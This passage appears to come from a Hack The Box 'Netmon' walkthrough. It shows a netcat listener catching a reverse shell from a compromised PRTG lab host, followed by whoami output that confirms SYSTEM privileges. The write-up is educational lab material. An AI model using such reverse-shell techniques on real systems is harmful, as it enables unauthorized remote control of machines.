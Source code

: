![PRTG Devices Post-Exploit]({attach}images/hack-the-box-netmon/devices_with_exploit.png)

Meanwhile, we have a hit from our reverse shell:

```shell-session
$ nc -nlvp 1337
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::1337
Ncat: Listening on 0.0.0.0:1337
Ncat: Connection from 10.129.211.178.
Ncat: Connection from 10.129.211.178:49872.
cd /

whoami /all

USER INFORMATION
----------------

User Name           SID     
=================== ========
nt authority\system S-1-5-18


GROUP INFORMATION
-----------------

Group Name                             Type             SID          Attributes                                        
====================================== ================ ============ ==================================================
BUILTIN\Administrators                 Alias            S-1-5-32-544 Enabled by default, Enabled group, Group owner    
Everyone                               Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
Mandatory Label\System Mandatory Level Label            S-1-16-16384                                                   


PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State   
========================================= ================================================================== ========
SeAssignPrimaryTokenPrivilege             Replace a process level token                                      Disabled
SeLockMemoryPrivilege                     Lock pages in memory                                               Enabled 
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Disabled
SeTcbPrivilege                            Act as part of the operating system                                Enabled 
SeSecurityPrivilege                       Manage auditing and security log                                   Disabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Disabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Disabled
SeSystemProfilePrivilege                  Profile system performance                                         Enabled 
```